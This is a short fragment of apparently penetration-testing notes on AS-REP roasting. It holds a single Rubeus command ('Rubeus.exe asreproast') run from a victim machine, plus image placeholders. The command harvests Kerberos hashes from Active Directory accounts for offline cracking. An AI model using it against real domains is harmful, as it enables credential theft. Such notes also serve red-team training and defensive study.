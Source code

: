<figure><img src="../../.gitbook/assets/image (83).png" alt=""><figcaption></figcaption></figure>

## AS-REP Roasting w/ Rubeus

**Victim**

```
cd Downloads
Rubeus.exe asreproast
```

<figure><img src="../../.gitbook/assets/image (2) (1) (4).png" alt=""><figcaption></figcaption></figure>
